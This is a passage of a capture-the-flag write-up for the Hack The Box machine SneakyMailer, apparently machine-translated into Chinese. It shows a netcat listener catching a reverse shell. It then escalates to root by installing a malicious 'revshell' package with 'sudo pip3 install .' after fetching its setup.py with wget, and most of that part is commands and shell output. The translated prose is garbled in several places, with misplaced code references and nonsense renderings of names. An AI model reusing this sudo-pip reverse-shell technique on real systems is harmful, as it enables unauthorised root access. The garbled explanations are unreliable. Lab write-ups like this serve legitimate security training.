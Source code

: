 
如果我匆忙加载，则列出包：`http://pypi.sneakycorp.htb:8080/simple`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200713071533459.png) 

它消失得非常快（似乎低是快速反应和清理）。但几秒钟后，接收到与 shell 的连接为低：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:56400.
    $ id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
    

和低可以访问：`user.txt`

    $ cat user.txt
    13164fcd************************
    

## Priv：低>根

### 列举

列出低级命令可以像其他用户一样运行，非常清楚地显示下一步：`sudo -l`

    low@sneakymailer:/$ sudo -l
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3
    

### 苏多皮普

这与[Canape](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#sudo-pip)相同，实际上，与上一步相同，只是简单得多。我将使用 Python 的 Web 服务器来托管包中的文件，并在 SneakyMailer 上使用在 中保存副本。`setup.py``wget``/dev/shm`

然后，我只需使用传递当前目录的命令运行：`install`

    low@sneakymailer:/dev/shm$ sudo pip3 install .
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /dev/shm
    Building wheels for collected packages: revshell
      Running setup.py bdist_wheel for revshell ... -
    

它挂在这里，但在听众那里有一个根壳：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:57612.
    # id  
    uid=0(root) gid=0(root) groups=0(root)
    